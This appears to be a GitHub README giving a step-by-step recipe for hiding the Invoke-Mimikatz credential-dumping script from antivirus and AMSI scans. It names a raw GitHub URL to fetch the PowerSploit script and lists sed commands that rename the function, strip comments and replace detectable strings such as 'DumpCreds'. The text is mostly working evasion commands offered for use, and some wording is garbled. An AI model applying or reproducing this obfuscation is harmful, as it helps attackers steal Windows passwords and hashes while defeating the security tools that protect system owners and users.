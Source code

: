 # AMSI evasion and clear text password to spike the mimikatz hash

### What is this? 
Antivirus evasion activity using set command and ISE sploit module to bypass windows and anti-malware scan and AMSI as well

### How we can do it?  
- Step 1: download Invoke-Mimikatz.ps1 from PowershellMafia:
  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

- Step 2: then substitute all “invoke-Mimikatz” currencies with “invoke-Lsasscraper” inside the invoke-mimikatze.ps1 script:
  ```diff sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1```

- Step 3: remove all comments:
   ```sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1```

- Step 4: remove all comment indented
   ```sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1```

- Step 5: replace parameters and strings they can picked up by antivirus engine:
  ```sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
  sed -i -e 's/ArgumentPtr/0bf/g' Invoke-Mimikatz.ps1
  sed -i -e 's/CallDllMainSC1/0bfSC1/g' Invoke-Mimikatz.ps1
  sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1```
